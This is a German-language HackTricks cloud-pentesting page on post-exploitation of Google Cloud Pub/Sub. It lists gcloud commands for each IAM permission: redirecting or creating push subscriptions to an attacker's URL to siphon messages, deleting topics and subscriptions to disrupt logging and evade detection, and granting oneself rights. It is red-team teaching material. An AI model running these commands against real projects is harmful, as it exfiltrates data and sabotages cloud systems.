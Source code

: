 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Pub/Sub

Für weitere Informationen über Pub/Sub besuche die folgende Seite:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Veröffentliche eine Nachricht in einem Thema, nützlich, um **unerwartete Daten zu senden** und unerwartete Funktionen auszulösen oder Schwachstellen auszunutzen:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Nützlich, um zu verhindern, dass ein Abonnement Nachrichten empfängt, möglicherweise um eine Entdeckung zu vermeiden.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Nützlich, um zu verhindern, dass ein Abonnement Nachrichten empfängt, möglicherweise um eine Entdeckung zu vermeiden.\
Es ist möglich, ein Thema zu löschen, selbst wenn Abonnements daran angehängt sind.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Verwenden Sie diese Berechtigung, um einige Einstellungen des Themas zu aktualisieren, um es zu stören, wie `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Geben Sie sich die Berechtigung, um einen der vorherigen Angriffe durchzuführen.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Holen Sie sich alle Nachrichten auf einem Webserver:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Erstellen Sie ein Abonnement und verwenden Sie es, um **Nachrichten abzurufen**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Ein Abonnement löschen** könnte nützlich sein, um ein Protokollverarbeitungssystem oder etwas Ähnliches zu stören:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Verwenden Sie diese Berechtigung, um einige Einstellungen zu aktualisieren, damit Nachrichten an einem Ort gespeichert werden, auf den Sie zugreifen können (URL, Big Query-Tabelle, Bucket) oder um dies einfach zu stören.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Geben Sie sich die Berechtigungen, die erforderlich sind, um eine der zuvor kommentierten Angriffe durchzuführen.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Greifen Sie auf ein Schema zu einem Thema zu, sodass die Nachrichten es nicht erfüllen und das Thema daher gestört wird.\
Wenn es keine Schemas gibt, müssen Sie möglicherweise eines erstellen.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Dies könnte so aussehen, als würde das Löschen eines Schemas es Ihnen ermöglichen, Nachrichten zu senden, die nicht mit dem Schema übereinstimmen. Da das Schema jedoch gelöscht wird, wird keine Nachricht tatsächlich in das Thema eingehen. Das ist also **NUTZLOS**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Geben Sie sich die Berechtigungen, die erforderlich sind, um eine der zuvor kommentierten Angriffe durchzuführen.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Dies wird einen Snapshot aller unACKed Nachrichten erstellen und sie zurück zum Abonnement bringen. Für einen Angreifer nicht sehr nützlich, aber hier ist es:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
